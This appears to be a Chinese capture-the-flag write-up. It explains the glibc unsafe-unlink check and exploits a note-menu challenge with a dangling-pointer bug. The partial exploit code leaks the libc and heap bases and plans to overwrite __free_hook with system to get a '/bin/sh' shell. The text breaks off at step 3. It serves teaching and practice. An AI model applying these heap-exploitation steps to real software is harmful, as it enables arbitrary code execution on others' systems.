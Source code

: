 ## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`<br>
所以上面代码就可以转换成<br>
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A<br>
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` <br>
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测<br>
并且能将A的值改写成 <br>
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值<br>
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些<br>

## unlink
### 一个menu题目
![](img/menu.PNG)

### 漏洞点
首先看一下new_note<br>
qword_6020A8+8 是note总数量<br>
之后是一个结构体<br>
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
![](img/new_note.PNG)<br>

漏洞点主要在free_note<br>
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use<br>
并且data的指针只free，没有置空，所以这里存在double free<br>
![](img/free_note.PNG)<br>

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址<br>
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址<br>
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体<br>
4.edit根据note结构体中的data来写，所以这一步可以对note结构体里面的任意写，这里<br>
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上了<br>
此时chunka即包含libc的基址（指向unsorted bin），也包含指向heap的基址（指向chunkb）<br>
![](img/unsorted_bin.PNG)<br>
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)
```

#### 2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
使用chunka去,通过edit_note中的realloc合并chunkb,然后通过list就可以泄露基址了<br>
```
edit(0,0x110,'a'*0x10f)
list()
libc_base=u64(p.recvuntil('\x7f')[-6:] + '\x00\x00')
libc_base = libc_base-0x58-libc.symbols['__malloc_hook']-0x10
success(hex(libc_base))

edit(0,0x118,'a'*0x117)
list()
heap_addr=u64(p.recvuntil('\x60')[-3:] + '\x00'*5)

gbuff=heap_addr-(256+16)*3-0x1810
success(hex(gbuff))
```

#### 3.利用note结构体中指向heap的指针和heap中的chunk构造double free
虽然chunkb在前面被free了，但是在note结构体中依然保存着chunkb的data区域的指针<br>
然后通过edit中的realloc可以修改chunkb的fd和bk伪造chunk<br>
chunka+chunkb的这一块大空间伪造了三个chunk<br>
chunk0(free)+chunk1(将要被free，造成double free)+chunk2(size正常，规避next-size检测机制)<br>














